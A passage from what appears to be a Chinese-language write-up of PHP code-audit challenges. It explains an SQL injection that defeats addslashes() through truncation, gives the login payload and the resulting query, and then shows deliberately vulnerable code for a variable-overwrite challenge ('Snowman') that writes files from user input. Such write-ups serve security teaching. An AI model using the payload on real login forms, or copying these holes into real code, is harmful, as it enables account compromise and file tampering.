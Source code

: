 ```php
        return $input;
    }
}

$auth = new LoginManager($_POST['user'], $_POST['passwd']);
if (!$auth->isValid()) {
    exit;
}
```

注意到两个参数都被 `addslashes()` 转义，而且将被截断。

如果没有这个截断操作，有 `addslashes()` 加持还是会安全很多，有了截断就可以搞事情了，“逃逸”一个 `\` 出来将 `‘` 吃掉。

### payload

```php
user=1234567890123456789\&passwd=or 1#
```

形成的 `sql` 语句

```sql
where user = '1234567890123456789\' AND password = 'or 1#'
```




## 14 - Snowman

> 变量覆盖

```php
class Carrot {
    const EXTERNAL_DIRECTORY = '/tmp/';
    private $id;
    private $lost = 0;
    private $bought = 0;

    public function __construct($input) {
        $this->id = rand(1, 1000);

        foreach ($input as $field => $count) {
            $this->$field = $count++;
        }
    }

    public function __destruct() {
        file_put_contents(
            self::EXTERNAL_DIRECTORY . $this->id,
            var_export(get_object_vars($this), true)
        );
    }
}

$carrot = new Carrot($_GET);
```
